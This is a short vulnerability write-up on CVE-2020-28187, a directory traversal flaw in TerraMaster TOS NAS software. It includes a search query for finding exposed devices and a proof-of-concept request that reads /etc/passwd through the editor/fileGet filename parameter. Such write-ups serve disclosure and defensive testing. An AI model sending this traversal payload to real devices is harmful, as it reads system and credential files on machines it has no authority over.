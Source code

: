 # TerraMaster TOS background arbitrary file reading vulnerability CVE-2020-28187

## Vulnerability Description

TerraMaster TOS <= Multiple directory traversal vulnerabilities in 4.2.06 allow remote authentication attackers to read any file in the file system through the filename parameter under /tos/index.php?editor/fileGet path, the Event parameter under /include/ajax/logtable.php path, and the opt parameter under /include/core/index.php path.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">TerraMaster TOS < 4.2.06</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"TerraMaster" && header="TOS"</span>

## Vulnerability reappears

After logging in, the POC of the verification vulnerability is

```plain
/tos/index.php?editor/fileGet&filename=../../../../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tm-8.png)